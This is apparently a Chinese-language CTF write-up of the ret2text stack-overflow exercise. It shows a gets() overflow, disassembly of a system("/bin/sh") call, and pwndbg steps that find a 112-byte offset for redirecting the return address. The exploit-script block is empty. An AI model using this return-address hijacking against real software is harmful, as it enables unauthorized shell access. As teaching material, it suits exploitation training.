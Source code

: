 ```c
```
在程序中的secure函数中存在system("/bin/sh")的代码
```c
.text:0804862D                 call    ___isoc99_scanf
.text:08048632                 mov     eax, [ebp+input]
.text:08048635                 cmp     eax, [ebp+secretcode]
.text:08048638                 jnz     short locret_8048646
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
```
因为gets函数是以回车为结束符，只要不回车就可以不断输入字符，导致栈溢出，从而覆盖掉返回地址，从而控制程序流程，把返回地址设置成0x0804863A，那么系统就会执行system("/bin/sh")，从而getshell

![](/BasicROP.assets/ret2text.png)

下面就是确定填充长度了，用gdb调试程序，生成200个字符，
```bash
gdb ret2text #启动gdb
...
pwndbg> cyclic 200 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
运行程序之后输入造成程序崩溃，gdb报错是因为返回地址被我们填充的字符覆盖掉，导致程序无法正常跳转
```bash
pwndbg> r #运行
Starting program: /home/gnq/exam/ret2text 
There is something amazing here, do you know anything?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Maybe I will tell you next time !
Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
```
查看输出位置到报错位置的距离，得到112（0x6c+0x4），那么我们就需要填充112个无用字符才可以溢出到返回地址
```bash
pwndbg> cyclic -l 0x62616164
112
```
编写攻击脚本
```python
```